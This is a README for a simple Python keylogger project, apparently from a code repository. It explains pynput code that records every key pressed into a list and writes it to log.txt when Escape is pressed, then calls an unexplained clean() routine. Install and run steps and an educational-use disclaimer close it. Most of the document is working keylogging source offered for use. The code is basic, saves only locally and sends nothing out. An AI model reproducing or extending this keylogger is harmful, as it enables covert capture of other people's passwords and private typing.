 Keylogger Project Readme
Overview
This Python script serves as a basic keylogger, capturing key presses and saving them to a log file named 'log.txt'. The code utilizes the pynput library to monitor and record keyboard input. Additionally, there is a function clean() from a module KLcleaner (presumably related to cleaning up after the keylogging process).

Dependencies
pynput: This library is used for monitoring keyboard input.

How it Works
The script imports necessary modules, including pynput.keyboard for keyboard monitoring, and the custom KLcleaner module for cleaning.
python

Copy code
from pynput.keyboard import Key, Listener
from KLcleaner import clean
The script initializes an empty list called keys to store the pressed keys.
python
Copy code
keys = []
Two functions, on_press and on_release, are defined to handle key events. The on_press function appends each pressed key to the keys list, and the on_release function checks if the pressed key is the escape key (Key.esc). If the escape key is pressed, the script writes the collected keys to the 'log.txt' file and terminates the keylogging process.
python
Copy code
def on_press(key):
    keys.append(key)

def on_release(key):
    if key == Key.esc:
        with open('log.txt', 'w') as file:
            file.writelines(str(keys))
        return False
The script initializes a Listener object with the defined on_press and on_release functions, and starts monitoring the keyboard.
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
After the listener is terminated (when the escape key is pressed), the clean() function is called, presumably to perform cleanup operations.
python
Copy code
clean()
Important Notes
This script has the potential to be misused for unauthorized access to sensitive information. Always use such scripts responsibly and only on systems for which you have explicit permission.
Keyloggers are often associated with malicious activities, so be cautious when working on or using such scripts.
Usage
Install the required dependencies:
bash
Copy code
pip install pynput
Run the script:
bash
Copy code
python keylogger.py
Press the escape key to stop the keylogging process.
Disclaimer
This script is intended for educational purposes only. Unauthorized use of keyloggers or any form of malicious activity is illegal and unethical. The author is not responsible for any misuse of this code.






